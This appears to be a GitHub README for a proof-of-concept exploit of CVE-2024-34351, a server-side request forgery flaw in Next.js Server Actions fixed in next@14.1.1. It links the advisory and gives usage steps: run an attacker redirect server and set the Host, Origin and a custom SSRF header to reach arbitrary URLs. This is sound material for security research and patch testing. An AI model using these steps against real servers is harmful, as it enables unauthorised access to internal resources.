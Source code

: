 # CVE-2024-34351 Exploit

- [CVE-2024-34351 PoC](https://github.com/azu/nextjs-CVE-2024-34351/)
- [Next.js Server-Side Request Forgery in Server Actions · CVE-2024-34351 · GitHub Advisory Database](https://github.com/advisories/GHSA-fr5h-rqp8-mj6g)
- [Digging for SSRF in NextJS apps](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps)

## Summary

PoC for a full exploitation of NextJS SSRF. An attacker can get any website content from Next.js server using CVE-2024-34351 vulnerability.
This vulnerability is fixed in `next@14.1.1`.

## Usage

- Prepare a redirect server.
    - TypeScript
        ```
        deno run --allow-net --allow-read attacker-server.ts
        ```
    - Python
        ```
        python3 attacker-server.py
        ```
- Modify `Host` header to attacker server. (e.g. Host: 192.198.0.144:8000)
- Modify `Origin` header to attacker server. (e.g. Origin: http://192.198.0.144:8000/)
- Add a new header called `SSRF` to specify where to redirect to. (e.g. SSRF: http://example.com/test)
